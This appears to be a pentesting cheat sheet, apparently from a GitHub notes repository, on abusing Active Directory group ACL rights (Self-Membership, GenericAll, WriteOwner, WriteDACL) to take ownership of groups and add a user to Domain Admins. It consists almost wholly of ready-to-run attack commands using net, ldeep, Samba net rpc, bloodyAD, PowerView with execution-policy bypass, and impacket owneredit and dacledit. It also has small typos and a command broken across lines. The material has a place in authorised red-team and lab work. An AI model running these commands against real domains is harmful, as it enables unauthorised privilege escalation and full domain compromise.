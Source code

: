# ACLs/ACEs permissions on Group

### Self (Self-Membership) on Group / GenericAll/WriteProperty on Group/ WriteProperty (Self-Membership)

#### 1) Add group member

    net group "GROUP" MY_USER /add /domain

#### 2) ldeep

    ldeep ldap -u USER -p PASSWORD -d DOMAIN -s ldap://DC add_to_group "CN=USER,DC=DOMAIN" "CN=GROUP,DC=DOMAIN"

#### 3) Linux Net RPC - Samba

    net rpc group addmem "GROUP" "USER" -U domain.local/USER%'Password@1' -S DC_IP

#### 4) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER" -p "Password@1" add groupMember "GROUP" "USER"

#### 5) Powervew==iew

    powershell -ep bypass
    
    Import-Module .PowerView.ps1
    
    $SecPassword = ConvertTo-SecureString 'Password@1' -AsPlainText -Force
    
    $Cred = New-Object
    
    System.Management.Automation.PSCredential('domain.local\USER1', $SecPassword)
    
    Add-DomainGroupMember -Identity 'Domain Admins' -Members 'USER1' -Credential

    $Cred


### WriteOwner on Group

WriteDACL + WriteOwner. Give yourself Generic All with: owneredit.py and dacledit.py

#### 1) impacket-owneredit

Grant our user ownership of the Domain Admins group (example)

    impacket-owneredit -action write -new-owner 'USER1' -target-dn 'CN=Domain Admins,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 2) impacket-dacledit

Grant our user Full Control of the Domain Admins group (example)

    impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'USER1' - target-dn 'CN=Domain Admins,CN=Users,DC=domain,DC=local' 'domain.local'/'USER1':'Password@1' -dc-ip DC_IP

#### 3) Linux Net RPC - Samba

    net rpc group addmem "Domain Admins" USER1 -U domain.local/USER1%'Password@1' -S DC_IP

#### 4) BloodyAD

    bloodyAD --host "DC_IP" -d "domain.local" -u "USER1" -p "Password@1" add groupMember "Domain Admins" "USER1"

#### 5) Powerview

Grant Ownership and Full Control

    powershell -ep bypass
    Import-Module .PowerView.ps1
    Set-DomainObjectOwner -Identity 'Domain Admins' -OwnerIdentity 'USER1'
    Add-DomainObjectAcl -Rights 'All' -TargetIdentity "Domain Admins" -PrincipalIdentity "USER1"

#### 6) Windows Net command

    net group "domain admins" USER1 /add /domain

